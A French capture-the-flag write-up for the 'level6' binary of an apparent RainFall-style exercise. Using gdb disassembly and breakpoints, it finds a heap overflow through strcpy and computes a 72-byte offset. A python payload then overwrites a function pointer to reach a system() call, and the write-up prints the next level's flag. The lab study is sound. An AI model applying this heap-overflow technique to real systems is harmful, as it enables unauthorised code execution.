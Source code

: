 # Level6

On observe un executable a la racine `level6`

```bash
$ ./level6
Segmentation fault (core dumped)

$ ./level6 "Hello World"
Nope
```

On cherche donc a comprendre ce que fait l'executable

```bash
$ gdb level6 -q
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `level6`

```bash
$ scp -P 4242 -r level6@192.168.56.102:/home/user/level6/level6 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level6
```

_resultat sauvegarde dans [source.md](source.md)_

On remarque que l'adresse de la fonction est stocke dans la variable `ppcVar2`.
On cherche donc a modifier cette adresse pour pointer vers l'adresse de la fonction `n`

On va recuperer le retour des deux malloc dans le main

```bash
(gdb) break *main+21
Breakpoint 1 at 0x8048491
(gdb) break *main+37
Breakpoint 2 at 0x80484a1
(gdb) run "Hello"
Starting program: /home/user/level6/level6 "Hello"

Breakpoint 1, 0x08048491 in main ()
(gdb) i r eax
eax            0x804a008    134520840
(gdb) continue
Continuing.

Breakpoint 2, 0x080484a1 in main ()
(gdb) i r eax
eax            0x804a050    134520912
```

On peut alors savoir le nombre d'octets qui les separes:
<code>0x804a050 - 0x804a008 = 48<sub>16</sub> = 72<sub>10</sub></code>

On peut alors essayer d'ecrire par dessus l'adresse de `m` et mettre l'adresse de `n`: `0x08048454`

```bash
$ ./level6 `python -c 'print ("A"*72 + "\x54\x84\x04\x08")'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d


level6:$ su level7
Password:

level7:$
```
